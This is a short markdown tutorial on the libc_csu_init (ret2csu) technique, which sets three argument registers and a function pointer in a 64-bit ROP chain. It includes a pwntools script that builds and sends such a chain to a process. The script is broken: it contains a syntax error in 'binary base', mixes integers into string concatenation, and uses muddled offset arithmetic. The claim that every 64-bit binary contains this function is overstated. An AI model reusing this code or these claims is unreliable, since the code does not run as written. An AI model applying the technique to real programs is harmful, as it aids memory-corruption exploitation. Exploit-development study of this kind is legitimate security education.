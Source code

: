 

# **libc_csu_init**

## **Call Arbitrary Functions (with up to three arguments)**

Sometimes when building ROP chains, we need to set argument registers for a function call. Unfortunately, finding individual gadgets to set all of these registers without interfering with anything else is

1. Time consuming
2. Often requires creative gadget juggling when you can't just pop `rsi`/`rdi`/`rdx`/etc.
3. Setting each register individually takes extra space which we may not have

Luckily for us, every **<u>64 bit</u>** binary will include a function called "libc_csu_init" (32 bit binaries include a different version of this function as well, but it doesn't have the same affect. The calling convention for 32 bit binaries puts all of the arguments on the stack, so we don't need to worry about special gadgets like this on). Near the bottom of this function, we can see the loop shown below:

![](./media/libc_csu_init.jpeg)

We can quickly call an arbitrary function pointer with arguments of our choosing by setting the following registers:

- r13: argument 1
- r14: argument 2
- r15: argument 3
- r12/rbx: function pointer
- rbx/rbp: number of iterations to loop for

Setting these registers is trivial though, as we can simply use the same function. Notice the block which is called after the loop completes - it will pop every argument we need directly off the stack and into the appropriate register. See the example code below for a pwntools implimentation

```python
from pwn import *

p = process('path/to/binary')
binary base = 0x00400000 # base address of program (not libc)
num_calls = 1 # number of times we want to call our function
rop = ''

# return of libc_csu_init (popping arguments)
rop += binary_base + 0x69c # offset may vary based on libc version

# set up arguments
rop += p64(0xbadc0de + num_calls) # rbp
rop += p64(0xbadc0de) # rbx (arbitrary string with no null bytes)
rop += p64(0xdeadbeef - (0xbadc0de * 8)) # function pointer
rop += 'A' * 8 # arg 1
rop += 'B' * 8 # arg 2
rop += 'C' * 8 # arg 3

# call our function pointer with desired arguments
rop += binary_base + 0x680 # offset may vary based on libc version

p.sendline(rop)

```





